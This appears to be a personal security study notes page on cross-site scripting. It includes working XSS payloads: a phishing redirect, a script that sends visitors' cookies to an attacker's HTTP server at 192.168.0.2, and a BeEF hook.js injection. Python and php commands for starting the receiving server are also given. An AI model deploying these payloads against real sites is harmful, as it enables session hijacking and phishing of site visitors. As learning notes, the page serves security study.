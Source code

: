 ```yaml
---
layout: post
title: 'Notes | XSS'
permalink: /notes/web/xss/
---
```



# General

If we have a form we can try to insert code, like this:
{% highlight html %}
<script> ... </script>
{% endhighlight %}
If the page execute what are in the form we can make several damage to the page.

There are some examples:
{% highlight html %}
<script> window.location="" </script>
{% endhighlight %}
This will send the target to a different page (phishing).

Also, if we use **deface** we can send a visitor to another part of the webpage. This can break the whole page.

# Blind XSS
We can use XSS to a cookie hijacking. First we need to start an http server, we can do it with python...:
{% highlight bash %}
> python -m http.server 80
{% endhighlight %}
or php...:
{% highlight bash %}
> php -S 0.0.0.0:80
{% endhighlight %}

Then we send others cookie to our http server:
{% highlight html %}
<script>document.write('<img src="http://192.168.0.2:80/xss.png?cookie="+ document.cookie + "')</script>
{% endhighlight %}

# Tools

## BeEF
We can use BeEF to capture traffic with XSS.
In a XSS we send:
{% highlight html %}
<script src="http://192.168.1.1:3000/hook.js"></script>
{% endhighlight %}
